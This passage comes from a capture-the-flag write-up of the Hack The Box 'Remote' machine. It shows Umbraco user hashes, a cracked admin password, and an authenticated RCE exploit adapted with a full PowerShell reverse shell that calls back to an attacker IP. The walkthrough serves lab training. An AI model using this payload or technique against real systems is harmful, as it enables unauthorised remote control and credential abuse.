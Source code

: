 ```terminal
$ head Umbraco.sdf
```
![Desktop View]({{ "/assets/img/remote/HTB-Images-Remote-sdf_file.png" | relative_url }})

* admin@htb.local : `b8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}`

* smith@htb.local : `jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}`

### Decrypting Password:
***
References - Decrypt SHA1 hash : <https://md5decrypt.net/Sha1/>

* Password decrypt : `baconandcheese` 

![Desktop View]({{ "/assets/img/remote/HTB-Images-Remote-decrypt_sha1.png" | relative_url }})

### Obtaining Reverse Shell with RCE Execution:
***
References - RCE umbraco : 
* <https://www.exploit-db.com/exploits/46153>
* <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>

The script is a PoC, so we need to modify according to our environment.

In the payload part add our reverse shell command in powershell:

```
{ string cmd = "$client = New-Object System.Net.Sockets.TCPClient(\'10.10.14.67\',4445);\
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};\
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;\
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); \
$sendback=(iex $data | Out-String); $sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \'; \
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);\
$stream.Flush();};$client.Close()"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
</msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
</xsl:template> </xsl:stylesheet> ';
```

* proc.StartInfo.FileName = "powershell.exe"

In the config part:

* login = "admin@htb.local"
* password = "baconandcheese"
* host = "http://10.10.10.180"

![Desktop View]({{ "/assets/img/remote/HTB-Images-Remote-payload.png" | relative_url }})
